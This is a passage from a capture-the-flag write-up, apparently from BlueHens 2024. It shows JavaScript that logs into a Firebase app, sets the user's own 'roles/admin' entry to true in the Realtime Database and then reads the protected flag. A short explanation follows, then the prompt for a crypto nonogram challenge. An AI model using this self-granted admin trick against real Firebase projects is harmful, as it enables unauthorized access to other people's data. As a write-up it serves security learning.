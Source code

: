 ```

      adminRef.set(true)
        .then(() => {
          console.log("Admin:", user.uid);
        })
        .catch((error) => {
          console.error("Error:", error);
        });
      checkAdminPermissions(userCredential.user);
      readFlag()
    })
    .catch((error) => {
      console.error("Error:", error.message);
    });
}
function readFlag() {
  const flagRef = database.ref("flag");

  flagRef.once("value")
    .then((snapshot) => {
      if (snapshot.exists()) {
        const flag = snapshot.val();
        console.log("Flaga:", flag);
      } else {
        console.log("Flag not found.");
      }
    })
    .catch((error) => {
      console.error("Error:", error);
    });
}
window.onload = login;


```

What's this?

We use created user to login, with default permission Firebase return image with permission rules, but we can creates or updates a reference in Realtime Database at users/{userId}/roles/admin, setting the value to true. This effectively grants the user an "admin" role and we can read a flag using this code :)


![image gitlog](/post/bluehens2024/fire_flag.png)



## Crypto - Nonogram Pt. 1: Simple Enough

Description: 

```
When you get past the puzzle, you now face a classic encryption / old-school stego encoding. Wrap the text you find in UDCTF{TEXTHERE}.

-Grace

```